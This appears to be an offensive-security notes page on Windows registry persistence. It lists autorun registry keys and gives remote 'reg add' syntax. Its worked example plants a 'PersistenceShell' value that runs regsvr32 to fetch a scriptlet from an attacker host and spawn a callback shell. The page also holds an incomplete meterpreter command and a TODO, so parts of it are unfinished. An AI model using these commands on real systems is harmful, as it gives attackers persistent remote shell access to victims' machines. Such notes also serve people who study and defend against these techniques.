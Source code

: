 # Registry

## These are the following registry path to create registry values to spawn a callback shell

TODO: Fill the missing info

```
HKLM\Software\Microsoft\Windows\CurrentVersion\Run

HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce

HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run

HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
```

## Manual

### Registry key syntax

```
C:\> reg add \\<IP>\hklm\software\microsoft\windows\currentversion\run /v <registry_value> /t reg_sz /d <commands>

C:\> reg query \\<IP>\hklm\software\microsoft\windows\currentversion\run

C:\> reg delete \\<IP>\hklm\software\microsoft\windows\currentversion\run /v <registry_value> /f
```

### Here's the following example

```
C:\> reg add \\<IP>\HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v PersistenceShell /t REG_SZ /d "regsvr32 /s /n /u /i:http://<attacker_IP>/shell.sct scrobj.dll"

C:\> reg query \\<IP>\HKLM\Software\Microsoft\Windows\CurrentVersion\Run

C:\> reg delete \\<IP>\HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v PersistenceShell /f
```

## Metasploit

```
meterpreter > reg setval -r <target_IP> -k
```

---
## References

- [[Registry Key References]]